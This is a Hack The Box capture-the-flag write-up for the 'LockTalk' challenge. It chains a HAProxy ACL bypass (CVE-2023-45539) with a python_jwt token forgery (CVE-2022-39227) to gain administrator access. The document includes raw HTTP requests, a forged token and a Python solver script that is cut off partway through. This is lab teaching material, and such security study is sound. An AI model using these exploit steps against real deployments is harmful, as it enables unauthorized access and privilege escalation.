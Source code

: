 ![](https://raw.githubusercontent.com/hackthebox/writeup-templates/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left /> <font size="10">LockTalk</font>

​ DD<sup>th</sup> - -

​ Challenge Author(s): **dhmosfunk**

### Description:

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

### Objective

HAProxy CVE-2023-45539 => python_jwt CVE-2022-39227

### Difficulty:

`medium`

### Flag:

`-`

# Challenge

![](assets/challenge.PNG)

### Get access ticket by bypassing HAProxy ACL with **#** fragment 
Based on [CVE-2023-45539 advisory description](https://www.cvedetails.com/cve/CVE-2023-45539/), HAProxy accepts # (fragment) as part of URI, which allows ACL bypass on blocked endpoint by frontend. \
In the given application, there is an ACL for **/api/v1/get_ticket** endpoint.
```bash
...

http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }

...
```
By utilizing the # fragment on the /api/v1/get_ticket endpoint, we can bypass the ACL, obtain the JWT token, and proceed with the next stage of exploitation.
```bash
GET /api/v1/get_ticket# HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close
```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 554
server: uWSGI Server
connection: close

{"ticket: ":"[JWT_TOKEN]"}
```

### Forging a new JWT Token with tampered claims in order to bypass role restrictions
python_jwt module version 3.3.3 is vulnerable to forging new valid JWT tokens without knowing the secret used by the backend to verify the JWT tokens. Exploiting this vulnerability, a user could bypass role restrictions and hijack user identities by tampering with existing token claims and adding new ones. \
 \
Exploit involves constructing a fake JWT by tampering with the payload section while preserving the original header and signature. Through careful manipulation of base64-encoded payload data, attackers can inject unauthorized claims such as altering user identities or extending token expiration times.

In order to forge a new token with tampered claims, we need to obtain a valid JWT token from the */api/v1/get_ticket* endpoint. \

Let's create the script for generating a tampered token. First, we need to parse the three parts of the JWT token: header, payload, and signature.
```python
[header, payload, signature] = token.split(".")
```
\
Decode from base64 and parse into a JSON object the JWT token. \
On the second line we change the role of the JWT token to administrator
```python
parsed_payload = loads(base64url_decode(payload))
parsed_payload["role"] = "administrator"
```
\
Generate final JWT token. The fake_payload line its serializes the `parsed_payload` JSON object into a string using `json.dumps` with custom seperators such as  (, for items and ':' for key-value pairs). Then, it encodes the string using `base64url_encode` which encodes the string to a valid base64 format. \

The return statement constructs a new JWT token string. It includes:
- header: The original header of the JWT token.
- fake_payload: The manipulated payload, which has been encoded and formatted.
- "":"": An empty field between the header and payload.
- "protected": The header again.
- "payload": The original payload.
- "signature": The original signature.
```python
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))
return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
```

### Get the flag
After generating the final JWT token, a GET flag request should look like the following:
```bash
GET /api/v1/flag HTTP/1.1
Host: localhost:1337
Authorization: {" eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"hXIK5TCaHej4Q_ZNpXHb-e4Lssd8sFw1Xx9M-8hdKotb0OPwE5-tymyHXODh7TY2J6xHNCiKkGUYS9JwyDWuwQV7fAaospyE4njbEJOF3qiT-sXUkSbwMVMYHMQ9AiGsBJFjPaA__8l6NrqKKcBO-aPvg-7tlMA0YIbG_KewcRbnI7Bu1ewfkY4-0N4MVZdAuExETnal7FnKcTiyx0v8zKTwbkn1hf1ATLb8zkdisj_TAghukx_6r3VCB1slhbnmbHOPqpIOs5HdEu9v8KC74g23UqE7yvC2H_HRJuS73Y9Q6sARdmtUI1e0ooWyo7Lsv0zTA30Z47mrEIcVk2IWjg"}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close

```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 45
server: uWSGI Server
connection: close

{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```

# Resources
[CVE-2023-45539 : HAProxy before 2.8.2 accepts # as part of the URI component, which might allow remote attackers to obtain sensitive info](https://www.cvedetails.com/cve/CVE-2023-45539/) \
[奇安信攻防社区-CVE-2022-39227漏洞分析](https://forum.butian.net/share/1990) \
[https://github.com/Casualtek/Ransomchats](https://github.com/Casualtek/Ransomchats)

# Solver

```python
from jwcrypto.common import base64url_encode, base64url_decode
from json import loads, dumps
import requests
import socket

def send_raw_http_request(host, port, request):
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    client_socket.connect((host, port))

    client_socket.sendall(request.encode())

    response = b""
    while True:
        recv_data = client_socket.recv(1024)
        if not recv_data:
            break
        response += recv_data

    client_socket.close()

    return response.decode()

def get_token(host,port):
    request = f"""GET /api/v1/get_ticket# HTTP/1.1\r\nHost: {host}:{port}\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36\r\nConnection: close\r\n\r\n"""

    response = send_raw_http_request(host, 1337, request)
    json_start = response.find("{")
    json_end = response.rfind("}") + 1
    json_data = response[json_start:json_end]

    ticket_dict = loads(json_data)
    token = ticket_dict.get("ticket: ") 

    return token

def exp(token):
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload["role"] = "administrator"
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))

    return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

def get_flag(host,port,token):

    headers = {"Authorization": token}
    req = requests.get(f"http://{host}:{port}/api/v1/flag", headers=headers)
    
    return req

host = "localhost"
port = 1337

guest_token = get_token(host, port)
